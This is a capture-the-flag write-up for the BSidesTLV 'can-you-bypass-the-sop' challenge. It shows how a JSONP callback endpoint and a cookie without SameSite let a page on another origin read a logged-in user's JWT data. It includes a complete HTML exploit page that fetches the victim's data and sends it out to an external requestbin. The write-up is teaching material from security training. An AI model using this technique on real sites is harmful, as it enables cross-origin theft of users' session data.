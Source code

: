# Challenge Instructions

```
Hi Agent! Your mission is to exfiltrate data of our target, so we can catch him! Can you do it?

URL: https://can-you-bypass-the-sop.ctf.bsidestlv.com/

BOT: https://can-you-bypass-the-sop.ctf.bsidestlv.com/bot
```

# Discovery

So the first thing that I realize is that we have a BOT url. Clicking on it brings us to a page with not much going on except for a textfield for a URL and a "Browse" button. From previous CTFs, this seemed like some sort of URL click bot that was running that would navigate to whatever URL was passed it. So to make sure, I fired up a request bin and passed in the URL to the bot. Sure enough, we get a hit.

![Test request bin](./requestbin.PNG)


With this in mind and the fact that the challenge name uses the term SOP, we're likely looking for some XSS variation that we can store inside a link or a webpage that we can send to the BOT to gain any secrets that it may hold.

After navigating to the main url, we're presented with a login page. We immediately see a "JOIN AS A GUEST" button. Clicking this grants us access to a welcome screen as a guest user. After being logged in as a guest, I noticed a JWT token added to my cookie storage in my browser, `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiZmxhZyI6IllvdSBhcmUgb24gdGhlIHJpZ2h0IHRyYWNrISIsImlhdCI6MTU5MzU1NjY3MX0.BOh06azgJcQFjPkzbYG4FnCUNsyfLniedmwXVgM9-0k`

Decoding the token, we get

```JSON
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "username": "Guest",
  "flag": "You are on the right track!",
  "iat": 1593556671
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  256 secret,
) 
```

Interesting, the payload in the JWT token has a flag field. Also, the `SameSite` security flag was not set on the cookie, which means the site looks to be vulnerable to CSRF. It seems likely that if we can come up with some type of XSS, the user who clicks on our link will have their credentials passed in, even if the link was not originally from the `https://can-you-bypass-the-sop.ctf.bsidestlv.com` site. 

Snooping some more, we find the application code in the main.js file `https://can-you-bypass-the-sop.ctf.bsidestlv.com/js/main.js`. This script file stores the JavaScript functions that are called when someone signs in or joins as a guest. The function we are particularly interested in is

```javascript
function signIn() {
    let http = new XMLHttpRequest();
    http.open('POST', 'signIn', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.onreadystatechange = function() {//Call a function when the state changes.
        if(http.readyState === 4 && http.status === 200) {
            $.ajax({
                dataType: 'jsonp',
                jsonp: 'callback',
                url: '/FetchUserInfo?callback=?',
                success: function (data) {
                    $("#login").html(
                        `<span class="login100-form-title p-b-70">Welcome ${data.username}!</span>
                                     <span class="login100-form-avatar">
                                     <img src="images/avatar-01.jpg" alt="AVATAR"></span>
                                     <div class="container-login100-form-btn" style="margin-top: 20px">
                                        <button class="login100-form-btn" id="select_div_SIGNIN" onclick="signOut()">
                                            Sign Out
                                        </button>
                                     </div>`);
                }
            });
        }
    };
    http.send(JSON.stringify({username: "Guest"}));
}
```

Something that should catch your eye pretty quickly is the second AJAX request and its use of the jsonp data type. A little background on JSONP, it is a mechanism that REST endpoints employed to bypass the same-origin policy (SOP). The same-origin policy is a security mechanism that browsers and web sites use to ensure that scripts and resources that are loaded from one origin cannot access resources from another origin. This is why if you navigated to your browser's web console while on a website and start making AJAX calls to another website on a different domain, your browser would stop you, as it would be breaching the SOP.

Some JSONP configurations allow you to define a `callback` parameter that is a function that is defined on the client side that when the request returns, it is automatically invoked and the code is executed. Navigating to the endpoint in question, we can see exactly what is happening. First by passing in `callback=i_control_this`
![callback example](./callback1.PNG)

and now `callback=with_whatever_I_want`

![callback example 2](./callback2.PNG)

Hmm, the callback function is being passed the payload to our JWT token. This is the last piece to our puzzle! If we can create a function that will ingest the object being passed back to to the JSONP callback function, we can send it as a URL parameter to an endpoint that we control and log the results.

Lets see what we can come up with!

# Solution

To put this all together we need 2 things.

1. We need to set up a requestbin to catch our request that will have the stolen cookie. That is simple enough.

2. To deploy the XSS, we need a way to host a web page. There are several services out there or you can use your own hosted website. I used [repl.it](https://repl.it/), which allows you to spin up proof of concept code snippets incredibly quickly. Below is the index.html file that is served whenever someone lands on my custom hosted website. 
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width">
    <title>repl.it</title>
    <link href="style.css" rel="stylesheet" type="text/css" />
    <script src="https://code.jquery.com/jquery-1.8.2.min.js"></script>
  </head>
  <body>
    <form action="https://requestbin.net/r/w4xs0xw4" method="GET" >
    <input type="hidden" name="data" value="template" id="input" />
    <script>
      $(document).ready(function(){
        $.ajax({
                dataType: 'jsonp',
                jsonp: 'callback',
                url: 'https://can-you-bypass-the-sop.ctf.bsidestlv.com/FetchUserInfo?callback=?',
                success: function (data) {
                    /*let http = new XMLHttpRequest()
                    http.open('POST', 'https://requestbin.net/r/w4xs0xw4', true);
                    http.setRequestHeader('Content-type', 'application/json');
                    http.send(JSON.stringify(data));*/
                    var input = document.getElementById("input");
                    console.log(data);
                    input.value = data.flag;
                    document.forms[0].submit();
                }
            });
      });
    </script>
  </body>
</html>
```

What this does is call the JSONP enabled endpoint, the same one that the original website does, as soon as the web page loads. Because the token cookie is not secured as mentioned before, if the user that navigates to this malicious URL is already signed into the `https://can-you-bypass-the-sop.ctf.bsidestlv.com`, the browser will do them a "favor" and send the token cookie along with the request ensuring that they will not need to log in again. Once the request from this endpoint returns, it will bring back the response from the JSONP endpoint with the object now in the logged in user's context. So, if someone that isn't `Logged in as guest` were to click on this link, they will have their own data object returned in the JSONP response.

Once we get that data back, the code can then append it as a URL parameter to GET request to our requestbin that is waiting for us which is what the success function does. It assigns the flag parameter as the hidden input value of our form and then submits it, effectively submitting a GET request to our hosted requestbin endpoint.

Pasting in our malicious URL that is hosted by repl.it to the BOT, we then wait a few moments and check our requestbin to find our flag waiting for us.

![flag](./flag.png)
